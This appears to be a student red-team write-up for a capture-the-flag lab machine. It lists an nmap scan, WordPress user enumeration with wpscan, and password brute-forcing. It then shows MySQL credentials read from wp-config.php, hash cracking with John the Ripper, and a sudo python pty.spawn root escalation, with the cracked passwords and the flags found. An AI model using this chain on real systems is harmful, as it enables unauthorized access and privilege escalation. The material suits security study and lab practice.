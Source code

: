 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u
-Micheal
-Steven

![](images/User.png)


With a simple brut force user Michael password was cracked: Password was "michael"

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag1.png)
![](images/Flag 2.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     Command: cd /var/www/
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account
command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p
password: R@v3nSecurity
  mysql> use wordpress;
        show table;
        SELECT * FROM wp_users;
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege
Command: ssh steven@192.168.1.110
password: pink84
        :sudo -l
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        :cd /root
        :ls -al
        :cat falg4.txt
        
![](images/flag4.png)



